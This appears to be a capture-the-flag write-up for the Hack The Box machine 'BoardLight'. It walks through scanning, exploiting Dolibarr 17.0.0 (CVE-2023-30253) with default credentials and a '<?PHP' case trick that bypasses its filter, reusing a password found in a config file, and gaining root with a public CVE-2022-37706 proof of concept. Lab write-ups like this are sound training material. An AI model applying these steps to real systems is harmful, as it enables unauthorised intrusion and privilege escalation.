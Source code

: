 ```yaml
---
layout: post
title: HTB - boardlight
date: 2025-03-10 08:56 -0400
---
```


{{ 'boardlight' | machine_img }}

## nmap
```nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-27 14:00 -04
Nmap scan report for 10.10.11.11
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 062d3b851059ff7366277f0eae03eaf4 (RSA)
|   256 5903dc52873a359934447433783135fb (ECDSA)
|_  256 ab1338e43ee024b46938a9638238ddf4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 73.90 seconds
```

## subdomains
crm.boardlight.htb

## 404
apache default page

## dir bruteforce
```bash
~/workspace/projects/htb/retired_machines/boardlight » feroxbuster -u http://boardlight.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://boardlight.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        1l        3w       16c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      313c http://boardlight.htb/js => http://boardlight.htb/js/
301      GET        9l       28w      317c http://boardlight.htb/images => http://boardlight.htb/images/
301      GET        9l       28w      314c http://boardlight.htb/css => http://boardlight.htb/css/
200      GET      294l      635w     9426c http://boardlight.htb/contact.php
200      GET        9l       24w     2405c http://boardlight.htb/images/d-2.png
200      GET        6l       52w     1968c http://boardlight.htb/images/twitter.png
200      GET        5l       12w      847c http://boardlight.htb/images/envelope-white.png
200      GET        6l       57w     1878c http://boardlight.htb/images/youtube.png
200      GET        5l       55w     1797c http://boardlight.htb/images/linkedin.png
200      GET       11l       50w     2892c http://boardlight.htb/images/d-1.png
200      GET        7l       48w     3995c http://boardlight.htb/images/d-5.png
200      GET      714l     1381w    13685c http://boardlight.htb/css/style.css
200      GET      517l     1053w    15949c http://boardlight.htb/index.php
200      GET      348l     2369w   178082c http://boardlight.htb/images/map-img.png
200      GET      280l      652w     9100c http://boardlight.htb/about.php
200      GET      536l     2364w   201645c http://boardlight.htb/images/who-img.jpg
200      GET    10038l    19587w   192348c http://boardlight.htb/css/bootstrap.css
200      GET     4437l    10973w   131639c http://boardlight.htb/js/bootstrap.js
200      GET      517l     1053w    15949c http://boardlight.htb/
[####################] - 3m    106372/106372  0s      found:19      errors:52739
[####################] - 3m     26584/26584   136/s   http://boardlight.htb/
[####################] - 3m     26584/26584   137/s   http://boardlight.htb/js/
[####################] - 3m     26584/26584   137/s   http://boardlight.htb/images/
[####################] - 3m     26584/26584   137/s   http://boardlight.htb/css/
```

Nothing interesting.

### main page
![boardlight.htb](/assets/img/boardlight1.png)

Its a php site. Just a static site, no features. It does give two pieces of information:
- info@board.htb
- subdomain is board.htb not boardlight.htb

## crm.board.htb
![crm.boardlight.htb](/assets/img/boardlight2.png)

Dolibarr 17.0.0, its another php crm. This version is vulnerable to [CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). Default creds are `admin:admin` and they work here.
  
![crm.boardlight.htb](/assets/img/boardlight3.png)

Using the cve you just change `<?php` to `<?PHP` and all the filters are bypassed.
That gives the `www-data` shell.

Users that have a shell:
```
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

There is a password on `/html/crm.board.htb/htdocs/conf/conf.php` works for `larissa`.
```bash
larissa@boardlight:~$ cat user.txt
43876***************************
```

Linpeas shows some interesting suid binaries:
```bash
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  --->  Before_0.25.4_(CVE-2022-37706)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  --->  Before_0.25.4_(CVE-2022-37706)
```

[CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) has a public poc that works as is.

```
larissa@boardlight:/tmp$ ./CVE-2022-37706.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# cat /root/root.txt
004f2***************************
```
